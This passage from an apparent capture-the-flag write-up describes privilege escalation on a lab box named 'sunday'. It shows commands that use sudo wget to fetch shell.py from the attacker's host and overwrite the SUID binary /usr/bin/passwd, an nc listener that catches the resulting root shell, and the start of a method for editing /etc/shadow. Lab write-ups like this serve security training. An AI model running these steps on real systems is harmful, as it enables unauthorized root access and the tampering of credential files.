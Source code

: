 Here's how I did it, with SimpleHTTPServer in the top window, then sammy
SSH, then sunny SSH, and then nc listener to catch root shell:

![](/img/sunday-troll-priv.gif)

#### Overwrite Different SUID Binary

If catching troll before it reverts was too much, it's certainly easier
to just overwrite a different set uid binary. Just make a backup copy of
the original first, so you can put it back after exploiting. For
example, `/usr/bin/passwd`:



    sammy@sunday:~$ cp /usr/bin/passwd /tmp
    sammy@sunday:~$ ls -la /usr/bin/passwd
    -r-sr-sr-x 1 root sys 31584 2009-05-14 21:18 /usr/bin/passwd
    sammy@sunday:~$ sudo wget -O /usr/bin/passwd http://10.10.14.5/shell.py
    --02:09:34--  http://10.10.14.5/shell.py
               => `/usr/bin/passwd'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [application/octet-stream]

    100%[==========================================================================================================================================================================================================>] 246           --.--K/s

    02:09:34 (69.91 KB/s) - `/usr/bin/passwd' saved [246/246]

    sammy@sunday:~$ passwd





    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 41346
    # id
    uid=101(sammy) gid=10(staff) euid=0(root) egid=3(sys) groups=10(staff)



#### Overwrite shadow

Overwriting `/etc/passwd` and/or `/etc/shadow` seemed to be the most
common attempt to root this box, and it ended up with a lot of people
screwing up the box and making it unusable. In fact, it led to people
trying to do the finger enumeration in the initial stage and getting
nothing back because the user list was jacked up.

In general, there are just better ways to do this. That said, if you
want to go this route, here's one way how.

Since we already have the shadow backup file, we'll use that. It doesn't
have a root entry at the top, but let's add one:
